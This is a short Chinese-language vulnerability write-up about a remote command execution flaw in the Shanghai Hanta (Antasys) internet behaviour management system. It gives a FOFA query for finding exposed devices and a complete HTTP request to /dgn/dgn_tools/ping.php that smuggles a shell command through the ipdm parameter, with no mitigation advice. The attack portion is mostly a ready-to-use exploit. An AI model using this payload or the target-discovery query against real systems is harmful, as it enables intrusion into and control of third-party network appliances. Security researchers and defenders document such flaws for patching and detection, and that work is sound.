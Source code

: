 # 上海汉塔网络科技有限公司上网行为管理系统存在远程命令执行漏洞

# 一、漏洞简介
上海汉塔网络科技有限公司多年来一直专注于网络应用的软件开发，在网络安全、网络协议分析、网络数据流控制等领域有着丰富的经验和雄厚的技术实力。同时，公司积累了丰富的数据通信及网络安全产品研发、生产、销售及服务经验，是行业领先的新一代信息安全产品供应商，目前拥有上网行为管理、IPSecVPN、SSLVPN、流量控制等多款产品。上海汉塔网络科技有限公司上网行为管理系统存在远程命令执行漏洞

# 二、影响版本
+ 上海汉塔网络科技有限公司上网行为管理系统

# 三、资产测绘
+ fofa`body="Antasys"`
+ 特征

![1733819382185-43df4414-69c6-45b9-a210-635997768cc0.png](./img/g30UhvPbU8YEnkZ_/1733819382185-43df4414-69c6-45b9-a210-635997768cc0-368560.png)

# 四、漏洞复现
```java
GET /dgn/dgn_tools/ping.php?ipdm=127.0.0.1;id;&ps=64&cnt=1 HTTP/1.1
Host: 
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=515a7b9608e8a01fd03889ccf28bf590
Upgrade-Insecure-Requests: 1

```

![1734321123435-1f8a2319-92ab-4659-80cf-cf44cef5073a.png](./img/g30UhvPbU8YEnkZ_/1734321123435-1f8a2319-92ab-4659-80cf-cf44cef5073a-437220.png)



> 更新: 2024-12-20 14:54:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yw165400gwggwvav>